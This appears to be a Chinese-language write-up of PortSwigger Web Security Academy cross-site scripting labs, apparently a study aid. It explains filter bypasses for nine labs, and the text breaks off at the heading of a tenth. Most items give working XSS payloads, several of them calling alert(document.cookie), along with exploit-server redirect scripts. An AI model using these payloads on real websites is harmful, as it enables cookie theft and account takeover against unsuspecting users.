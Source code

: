 **目录：**

[TOC]

#### 1. Reflected XSS into HTML context with nothing encoded

很简单的一道题，有手就行

#### 2. Reflected XSS into HTML context with most tags and attributes blocked

题目说过滤了大多数标签，去找找还有什么标签可以使用。

直接用burp爆破tag和event（看状态码）

得到了tag为`body`，event为`onresize`

`onresize`要在窗口大小被改变的时候触发

用题目的exlpoit，在body部分构造一个iframe，然后onload事件在触发的时候改变大小

payload:(因为是在body部分，记得提前转码，好像不用转码也能过)

```html
<iframe src="https://acc91f9b1fff1f7980540718002a0084.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
<iframe src="https://ac321fb51e21f4e780230d4600710017.web-security-academy.net/?search=<body onresize=alert(document.cookie)>" onload=this.style.width='100px'>
```

#### 3. Reflected XSS into HTML context with all tags blocked except custom ones

* 交互情况

过滤了除过自定义标签之外的所有HTML标签，但可以使用自定义标签。

自定义标签无法使用`onload`属性，但是onfocus可以使用，即聚焦触发（点击，而且可以多次），所以为了聚焦，还得需要给其聚焦的属性--`tabindex`

> **tabindex** [全局属性](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes) 指示其元素是否可以聚焦，以及它是否/在何处参与顺序键盘导航（通常使用Tab键，因此得名）。
>
> - tabindex=负值 (通常是tabindex=“-1”)，表示元素是可聚焦的，但是不能通过键盘导航来访问到该元素，用JS做页面小组件内部键盘导航的时候非常有用。
> - `tabindex="0"` ，表示元素是可聚焦的，并且可以通过键盘导航来聚焦到该元素，它的相对顺序是当前处于的DOM结构来决定的。
> - tabindex=正值，表示元素是可聚焦的，并且可以通过键盘导航来访问到该元素；它的相对顺序按照**tabindex** 的数值递增而滞后获焦。如果多个元素拥有相同的 **tabindex**，它们的相对顺序按照他们在当前DOM中的先后顺序决定。

`<xss tabindex=1 onfocus="alert(document.cookie)">`

但是聚焦的话，需要一个可以聚焦的对象，所以需要（可显示的）文字

`<xss tabindex=1 onfocus="alert(document.cookie)">aaaaa`

>**补充：经过仔细实测，不用（可显示的）文字也能聚焦触发，即对着前（或后）相应的位置按下即可**

payload:(exploit server)

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">aaaaa';
</script>
```

* 自动触发

自动触发的话，需要用户点击进入页面（exploit server）就自动聚焦，

为了实现自动聚焦，我们给标签添加一个id，然后在后面加上锚点，使用`#`

> <a>标记可以指向具有id属性的任何元素。
>
> 打开链接的时候也是同理

`<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x`

最终payload：

```html
<script>
location = 'https://acbb1f641eaf54af80700c4800db0027.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus="alert(document.cookie)">#x';
</script>
```

#### 4. Reflected XSS with event handlers and `href` attributes blocked

可用的tag有：a, animate, discard, image, svg, title

可用的event有：...一个都没有

href属性也不能用。应该是不能使用`href=`

但是在svg标签存在的情况下，animate可以给上一个标签赋值。

如

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/>Click me</a></svg>
```

> <animate attributeName=href values="javascript:alert(1)"/> 等同于
>
> <animate attributeName=href values="javascript:alert(1)"></animate>
>
> 即马上在后面添加标签结束符

这样就可以成功把`<a>`变成`<a href="javascript:alert(1)">`

但是这样不会显示`Click me`那个文本，因为在`<svg>`标签下，需要一个框的大小才能正常显示文字

添加大小的方式：`<text x=20 y=20>`或者`<rect width=100% height=100%>`(要求text标签包含文字)

所以最终payload：

```html
<svg><a><animate attributeName=href values="javascript:alert(1)"/><text x=20 y=20>Click me</text></a></svg>
<svg><a><animate attributeName=href values="javascript:alert(1)"/><rect width=100% height=100%>Click me</rect></a></svg>
```

#### 5.Reflected XSS with some SVG markup allowed

然后爆破出来可以用discard,image, svg, title四个标签以及onbegin事件

直接去[XSS-payload](../字典/XSS-payload.txt)搜索discard和onbegin

最终找到了`<svg><discard onbegin=alert(1)>`

#### 6.Reflected XSS into attribute with angle brackets HTML-encoded

题目的意思是，过滤了`<` 和`>`，并将它们替换成命名实体

显示考虑到用`<svg>`标签进行反实例化，但是`<svg>`本身就包含尖括号，已经不起作用

我一开始以为这个只会在顶上显示，然后后面翻了一下，发现有一个value，这就简单了，直接封闭然后onclick

```
"onclick="alert(1)
```

确实弹窗了，但是不给过，看了一下答案，用的是onmouseover，就很疑惑

payload

```
"onmouseover="alert(1)
```

#### 7.Stored XSS into anchor `href` attribute with double quotes HTML-encoded

这个题漏洞出在提交评论的地方。提交了几次之后发现位置。

![7](XSS-hard.assets/7.png)

发现没有过滤。。。就直接输入就可以了。

#### 8.Reflected XSS in canonical link tag

按键触发。canonical link tag。

![8](XSS-hard.assets/8.png)

发现位置。

首先需要闭合前面的，双引号被过滤了，用单引号。

payload：

```
url/?%27accesskey=%27x%27onclick=%27alert(1)
url/?%27accesskey=%27x%27onclick=%27alert(1)%27
```

#### 9.Reflected XSS into a JavaScript string with single quote and backslash escaped

![9](XSS-hard.assets/9.png)

找到位置。

没有过滤，直接闭合前面的script

payload：

```
</script><script>alert(1)</script>
```

#### 10.Reflected XSS into a JavaScript string with angle brackets HTML encoded

